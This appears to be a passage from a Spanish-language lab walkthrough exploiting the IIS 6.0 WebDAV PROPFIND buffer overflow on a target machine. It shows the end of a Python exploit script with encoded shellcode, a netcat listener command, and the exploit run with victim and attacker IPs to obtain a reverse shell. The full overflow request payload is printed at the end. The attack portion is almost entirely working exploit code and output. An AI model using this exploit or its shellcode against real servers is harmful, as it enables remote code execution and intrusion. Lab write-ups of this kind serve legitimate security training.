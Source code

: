 ```python
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
smallsc='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A'
pay+=smallsc
pay+='>\r\n\r\n'

print pay

sock.send(pay)
sock.send(shellcode)

data = sock.recv(80960)
print data
sock.close
```

* Nos ponemos en eschucha con netcat

```shell
> rlwrap nc -lvnp <tu-puerto>
```

* Uso del exploit que nos enviara una **reverse shell**

```shell
> python bf.py

[+] Uso: exploit.py <ip-victima> <puerto-victima> <tu-ip> <tu-puerto>

> python bf.py 10.10.10.15 80 10.10.16.4 4444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
